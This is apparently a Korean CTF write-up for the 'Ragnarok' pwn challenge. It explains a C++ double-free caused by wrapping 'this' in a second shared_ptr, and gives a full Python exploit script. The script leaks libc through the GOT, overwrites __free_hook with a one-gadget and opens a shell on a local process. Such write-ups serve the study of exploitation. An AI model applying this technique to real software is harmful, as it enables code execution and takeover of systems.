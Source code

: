 Ragnarok (Solver : 5)
=============

### 1. Introduction

| RELRO     | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE           |
|-----------|--------------|------------|--------|----------|------------|----------------|
| Full RELRO| Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | ragnarok.bin   | 

요즘 읽는중인 전문가를 위한 C++에 나와있는 더블프리 케이스에 정확히 맞는 문제였다. 고스트파티도 그렇고 C++ 문제는 코딩실수로 발생될 수 있는 취약점에서 문제가 잘 나오는거 같다.

### 2. Vulnerability

```c++
if(!weapon.compare("Gungnir")){
  add_mp(1600);
  cast_spell(shared_ptr<Figure>(this));
}
```
위처럼 같은 객체에 shared_ptr을 두번 만들게되면 레퍼런스 카운터는 변하지 않아서 소멸이 두번된다. 그래서 복사생성자를 이용해야한다.

### 3. Exploit
cast_spell(shared_ptr<Figure>(this)) 이부분을 호출만하면 UAF발생. 그 다음부터는 쉬우므로 생략하겠다.

```python
from ntpwn import *

e = ELF('./ragnarok')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def connect():
	#s = process('./a.out')
	s = process('./ragnarok')
	b = BP(s)
	b.bp('tracemalloc on')
	b.bp64(0x289c)
	b.bp('c')
	b.done()
	return s

def choose(idx):
	s.sendlineafter(':','1')
	s.sendlineafter(':',idx)

def show_info():
	s.sendlineafter(':','2')

def earn(money):
	charset = {68 : 'h', 49 : 'i', 50 : 't', 43 : 'c', 46 : 'o', 55 : 'n'}
	my_money = 0
	count = 0

	s.sendlineafter(':','3')
	u_log = log.progress("GET MONEY (" + str(money) + ")")
	while my_money < (money + 1000):
		s.recvuntil('*' * 27 + '\n')
		data = s.recvuntil('*' * 27)[:-29]
		s.sendlineafter(':', charset[len("".join(data.replace(' ','A').split()[:-1]))])
		s.recvuntil('Your money :')
		my_money = int(s.recvline())
		count += 1
		u_log.status(str(count))

	u_log.success("Good!")
	s.sendlineafter(':','H')

def winFreyr(name):
	s.sendlineafter('choice :','5')
	s.sendlineafter('choice :','3')
	s.sendlineafter('Target :','1')
	s.sendlineafter('choice :','3')
	s.sendlineafter('Target :','1')
	s.recvuntil('!' * 30, timeout=2)
	s.recvuntil('!',timeout=0.3)
	if -1 == s.recvuntil('!', timeout=0.3).find('You win !'):
		return -1

	s.sendlineafter('Name :',name)
	return 0

def diedFreyr():
	s.sendlineafter('choice :','5')
	s.sendlineafter('choice :','1')
	while s.recvuntil('choice :',timeout=0.3) != '':
		s.sendline('1')
	s.sendlineafter('0:No/1:Yes)','1')

def weapon(name):
	s.sendlineafter('choice :','4')
	s.sendlineafter(':',name)

def description(desc):
	s.sendlineafter('choice :','6')
	s.sendlineafter(':',desc)

def main():
	global s
	while True:
		s = connect()
		choose('3')
		if winFreyr('N'):
			s.close()
			continue
		break

	diedFreyr()
	choose('1')
	earn(133700)
	weapon('Gungnir')

	char_ptr = 0x613650
	odin_vtable = 0x40c700

	payload = p64(char_ptr + 0x30)  + p64(0) * 4
	payload += p64(char_ptr)
	payload += p64(odin_vtable)
	# string name
	payload += p64(e.got['rand']) + p64(8) + p64(0) * 2
	# string desc
	payload += p64(char_ptr + 0x50) + p64(30) + p64(100) + p64(0)

	description(payload)

	show_info()
	s.recvuntil('Name : ')
	libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['rand']
	oneshot = libc_base + 0xfcc6e
	log.info("LIBC BASE : " + hex(libc_base))

	description('A' * 8 + p64(libc_base + l.symbols['__free_hook']))
	description( p64(oneshot) )

	s.sendlineafter('choice :','3')
	s.sendlineafter(':','N')

	s.interactive()


s = ''
if __name__ == '__main__':
	main()
```
